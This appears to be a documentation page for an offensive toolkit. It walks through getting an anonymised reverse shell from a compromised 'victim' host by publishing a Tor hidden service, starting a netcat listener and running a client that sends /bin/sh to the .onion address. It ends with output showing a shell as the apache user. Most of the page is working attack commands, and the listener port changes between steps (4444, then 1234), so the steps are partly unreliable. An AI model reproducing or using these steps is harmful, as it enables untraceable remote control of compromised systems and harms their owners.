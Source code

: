 # Gaining access with reverse-shell-over-tor

{% hint style="warning" %}
We assume that **we are able to execute commands in Victim1** in some way.
{% endhint %}

In order to obtain a reverse shell preserving anonymity, we will use **reverse-shell-over-tor** from **Offensive Tor Toolkit**. As shown in the following illustration, the attacker will publish a Hidden Service so that the victim can send the reverse shell to it.

![Reverse shell over Tor](../.gitbook/assets/02_reverse-shell-over-tor.png)

## 1. Hidden Service and handler

The attacker will publish a **Hidden Service** so that the attacker can start a connection:

```text
[attacker]$ grep '^HiddenService' /etc/tor/torrc
HiddenServiceDir /tmp/tortest
HiddenServicePort 4444 127.0.0.1:4444

[attacker]$ cat /tmp/tortest/hostname
m5et..jyd.onion

[attacker]$ tor -f /etc/tor/torrc
```

In order to handle the connection, the attacker will start a **listener** with netcat:

```text
[attacker]$ nc -lvnp 4444
```

## 2. Victim connects to the Hidden Service

We have to launch a reverse shell from the Victim to the Hidden Service. The tool we need is **`reverse-shell-over-tor`** . The only parameter we need is the address and port in which the Hidden Service is listening.

```text
[victim1]$ ./reverse-shell-over-tor -listener m5et..jyd.onion:4444
```

## 3. The handler receives the shell

Once the victim connects with `reverse-shell-over-tor` , a `/bin/sh` shell is launched.

```text
[attacker]$ nc -lvnp 1234
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

{% hint style="info" %}
The attacker could change the shell binary by using the **parameter `-reverse-shell-program`**.
{% endhint %}

